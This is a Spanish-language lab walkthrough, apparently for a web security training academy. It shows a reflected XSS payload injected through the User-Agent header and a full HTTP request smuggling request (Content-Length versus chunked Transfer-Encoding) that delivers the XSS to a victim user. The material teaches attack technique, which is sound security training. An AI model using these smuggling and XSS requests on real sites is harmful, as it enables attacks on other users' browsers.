








## LAB


En este laboratorio observamos que el user-agent es tomado para luego insertarlo en el body del código html del sitio web.



Al realizar un solicitud GET, este toma el user-agent del usuario.



Por lo que se puede interceptar y modificar, para tratar de inyectar código javascript malicioso



Luego de enviar nuestra solicitud, se puede observar que el código javascript se interpreta correctamente.



```c
User-Agent: "><script>alert(1)</script>"
```

Para lograr solucionar el laboratorio se nos pide que un usuario victima le salga el xss, para ello construiremos nuestra solicitud maliciosa teniendo en cuenta que el frontend acepta content-length.

Por lo que para nuestra segunda solicitud tendremos lo siguiente:

```c
GET /post?postId=2 HTTP/1.1
X-Ignore: X
User-Agent: "><script>alert(1)</script>
```

Y teniendo en cuenta el numero de bits para el `Content-Length` tendríamos un total de 86, asi que para este caso no tendremos que inflar el `Content-Length` del segundo request.





Luego enviamos nuestra solicitud, que completa sería lo siguiente:

```c
POST / HTTP/1.1
Host: 0a91004b0322e419804c035f006a0096.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 86
Transfer-Encoding: chunked

0

GET /post?postId=2 HTTP/1.1
X-Ignore: X
User-Agent: "><script>alert(1)</script>
```

Luego el usuario victima vería lo siguiente en la ruta  `/`



